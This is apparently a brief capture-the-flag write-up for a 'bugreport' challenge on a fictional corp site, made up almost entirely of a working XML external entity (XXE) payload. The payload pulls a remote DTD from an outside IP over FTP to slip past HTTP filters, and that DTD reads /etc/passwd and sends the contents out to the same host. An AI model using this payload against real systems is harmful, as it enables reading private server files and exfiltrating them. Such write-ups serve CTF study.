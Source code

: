 # bugreport (xxe)

### Payload

```
POST https://pasteweb.corp.geegle.org/api/bugreport/csp

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "ftp://157.230.213.14/ev2.xml">
%sp;
]>
<test></test>
```

```
ftp://157.230.213.14/ev2.xml

<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://157.230.213.14/?%data;'>">
%param1;
```

### Idea
XXE, use FTP to bypass HTTP(s) filters

## author
adamyi

